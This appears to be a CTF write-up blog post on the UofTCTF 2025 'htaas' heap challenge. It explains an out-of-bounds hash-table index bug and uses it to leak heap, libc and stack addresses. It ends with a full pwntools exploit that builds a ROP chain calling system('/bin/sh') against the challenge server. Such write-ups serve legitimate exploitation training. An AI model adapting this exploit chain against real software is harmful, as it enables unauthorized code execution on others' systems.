 +++
title = 'htaas - UofT CTF 2025'
date = 2025-01-15T19:58:53+01:00
draft = false
+++

while playing UofTCTF I solved hash table as a service (htaas).
we were given a simple heap menu, which lets us create, get and set hash table entries:
```
1. New Hash Table
2. Set
3. Get
4. Exit
> 
```
upon inspecting the source, we spot some interesting things. there is an array that contains `hashTable`s,
i.e. it contains the number of entries in the hash table and its start address:
```
0x5c1e1caad040 <hashTables>:	0x0000000000000010	0x00005c1e4f4072a0
0x5c1e1caad050 <hashTables+16>:	0x0000000000000000	0x0000000000000000
...
```
each `hashTable` consits of `n` entries, which look like this:
```c
struct entry {
    int idx;
    char value[8];
}
```

now that the structures are clear, we can look at the bugs. there is clearly a missing check
in get and set functionality on the index for a hash table. in theory it can be any value:
```c
printf("Index: ");
__isoc99_scanf("%d", &v4);
printf("Key: ");
__isoc99_scanf("%d", &v5);
HashTable = getHashTable((char *)&hashTables + 16 * (int)v4, v5);
```
however we are limited by the method of retrieving the `HashTable` in `getHashTable`:
```c
__int64 __fastcall getHashTable(_QWORD *entry, int key)
{
  unsigned __int64 v3; // [rsp+10h] [rbp-10h]
  __int64 v4; // [rsp+18h] [rbp-8h]

  v3 = (unsigned __int64)key % *entry;
  v4 = entry[1];
  while ( key != *(_DWORD *)(12 * v3 + v4) && memcmp(&empty, (const void *)(12 * v3 + v4), 0xCuLL) )
    ++v3;
  return 12 * v3 + v4;
}
```
any malicious data we reach with a negative index for example have to satisfy following conditions:
- `*entry` has to contain a valid hash table size
- `*entry+8` has to contain a valid pointer
it was pretty difficult to find a valid target around the `hashTable` array, but there was something:
```
0x5c1e1caacd70:	0x00005c1e1caaa260	0x00005c1e1caaa220
```
this will satisfy the conditions above. since value at `*entry` is so large, `v3` will be the same as `key`.
that will require the `key` of the hash table me the same as its offset to the beginning in 
order to receive an entry. this seems pretty specific, but can be achieved in the `hashTable`
array, since we can freely control the number of entries in a `hashTable`. upon carefully crafting a negative index and size for a hash table we come up with this:
```py
create(0, 0x3d8)
set_map(-45, 0x3d8, b"AAAAAAAA")
get_map(-45, 0x3d8)
```
this will let us control 4 bytes of the pointer to `hashTable` entries:
```
0x5736c7f82040 <hashTables>:	0x41414141000003d8	0x0000573641414141
```
now we can have (heap) oob writes, since if an address contains `0xc` null bytes, we can
write to it no matter the key. however to get arbitrary reads, a valid `key` has to be preceeding
the value.

luckily we have enough control on the heap, so I decided to corrupt the top chunk and prepare
a proper key in front of libc addresses to be leaked. this leaks a libc address:
```py
heap = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
target = heap + 0x2df8
target2 = target + 0x8
target3 = target2 + 0x8

set_map(-45, 0x3d8, b"AAAA" + p32(target))

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target2))

set_map(0, 3, p64(0xf41))
create(1, 0x3d8)

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target3))
get_map(0, 3)

p.recvuntil(b"Value: ")
libc = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
```
because of the new libc I decided to corrupt the stack. to retrieve a stack leak, I wrote
some correct index right before `environ` and was able to leak it:
```py
before_environ = libc_base + 0x20ad40

set_map(-45, 0x3db, p64(before_environ))
set_map(2, 1, p64(0x200000000))

set_map(-45, 0x3db, p64(before_environ-0x4))

get_map(2, 2)

p.recvuntil(b"Value: ")
stack = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
```
we're lucky, since the `key` right before the saved return address contains `0x7fff`, which
is valid (and actually the uper 32-bits of saved `rbp`). with that we can prepare the stack
to be able to write more data to it and hold our ropchain. we get a shell:
```
[+] Starting local process './chall': pid 1991
0x34a4e2a0
0x7a3224400000
0x7ffe4e495508
[*] Switching to interactive mode
 $ ls
Dockerfile  chall.id0  chall.id2  chall.til		libc.so.6  x.py
chall	    chall.id1  chall.nam  ld-linux-x86-64.so.2	run
$ 
```
the full exploit is:
```py
from pwn import *

def create(idx, sz):
    p.sendlineafter(b">", b"1")
    p.sendlineafter(b"Index", str(idx).encode())
    p.sendlineafter(b"Size", str(sz).encode())

def set_map(idx, key, value):
    p.sendlineafter(b">", b"2")
    p.sendlineafter(b"Index", str(idx).encode())
    p.sendlineafter(b"Key", str(key).encode())
    p.sendafter(b"Value", value)

def get_map(idx, key):
    p.sendlineafter(b">", b"3")
    p.sendlineafter(b"Index", str(idx).encode())
    p.sendlineafter(b"Key", str(key).encode())

#p = process("./chall")
p = remote("34.162.33.160", 5000)

create(0, 0x3d8)
set_map(-45, 0x3d8, b"AAAA")
get_map(-45, 0x3d8)

p.recvuntil(b"AAAA")
heap = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
target = heap + 0x2df8
target2 = target + 0x8
target3 = target2 + 0x8
print(hex(heap))
p.unrecv(b">")

set_map(-45, 0x3d8, b"AAAA" + p32(target))

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target2))

set_map(0, 3, p64(0xf41))
create(1, 0x3d8)

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target3))
get_map(0, 3)

p.recvuntil(b"Value: ")
libc = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
libc_base = libc - 0x203b20
before_environ = libc_base + 0x20ad40
system = libc_base + 0x58740
binsh = libc_base + 0x1cb42f
pop_rdi = libc_base + 0x10f75b
ret = libc_base + 0x2882f
print(hex(libc_base))
p.unrecv(b">")

set_map(-45, 0x3db, p64(before_environ))
set_map(2, 1, p64(0x200000000))

set_map(-45, 0x3db, p64(before_environ-0x4))

get_map(2, 2)

p.recvuntil(b"Value: ")
stack = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
rip = stack - 0x130
initial_rip_addr = (rip - 0x4) - (stack >> 32)*0xc
print(hex(stack))
p.unrecv(b">")

set_map(-45, 0x3db, p64(initial_rip_addr))
set_map(2, (stack >> 32), p64(0x100000000))

set_map(-45, 0x3db, p64(rip+0x4-0xc))
set_map(2, 1, p64(0x100000000))

set_map(-45, 0x3db, p64(rip+0x8+0x4-0xc))
set_map(2, 1, p64(0x100000000))

set_map(-45, 0x3db, p64(rip+0x10+0x4-0xc))
set_map(2, 1, p64(system))

set_map(-45, 0x3db, p64(rip+0x8+0x4-0xc))
set_map(2, 1, p64(binsh))

set_map(-45, 0x3db, p64(rip+0x4-0xc))
set_map(2, 1, p64(pop_rdi))

set_map(-45, 0x3db, p64(initial_rip_addr)) 
set_map(2, (stack >> 32), p64(ret))

p.sendlineafter(b">", b"4")

p.interactive()
```